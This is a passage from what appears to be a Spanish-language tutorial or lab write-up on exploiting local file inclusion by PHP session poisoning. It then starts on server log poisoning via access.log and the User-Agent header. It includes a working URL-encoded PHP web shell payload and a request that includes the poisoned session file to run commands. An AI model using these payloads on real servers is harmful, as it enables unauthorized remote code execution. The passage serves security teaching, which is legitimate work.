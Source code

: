 El valor `page` está bajo nuestro control, ya que podemos controlarlo a través del parámetro `?language=`.

### Envenenando la Sesión

Establecemos un valor personalizado para verificar que podemos controlar el contenido:

```
http://<SERVER_IP>:<PORT>/index.php?language=session_poisoning
```

![Session Poisoning Test](/assets/img/posts/log-poisoning/session-poisoning-test.png)
_Verificación de control sobre el contenido de la sesión_

Ahora envenenamos la sesión escribiendo código PHP mediante URL encoding:

```
http://<SERVER_IP>:<PORT>/index.php?language=%3C%3Fphp%20system%28%24_GET%5B%22cmd%22%5D%29%3B%3F%3E
```

### Ejecución de Comandos

Finalmente, incluimos el archivo de sesión y ejecutamos comandos:

```
http://<SERVER_IP>:<PORT>/index.php?language=/var/lib/php/sessions/sess_jt8tq8r5fveklnnmqd38bsplkc&cmd=id
```

![Command Execution](/assets/img/posts/log-poisoning/session-command-execution.png)
_Ejecución exitosa de comandos a través de la sesión envenenada_

> **Nota:** Para ejecutar otro comando, el archivo de sesión debe ser envenenado nuevamente con el web shell, ya que se sobrescribe después de nuestra última inclusión.
{: .prompt-notice}

---

## Server Log Poisoning

### Ubicaciones de Logs por Defecto

Tanto Apache como Nginx mantienen varios archivos de log, como `access.log` y `error.log`. El archivo `access.log` contiene información variada sobre todas las peticiones realizadas al servidor, incluyendo el header **User-Agent** de cada petición.
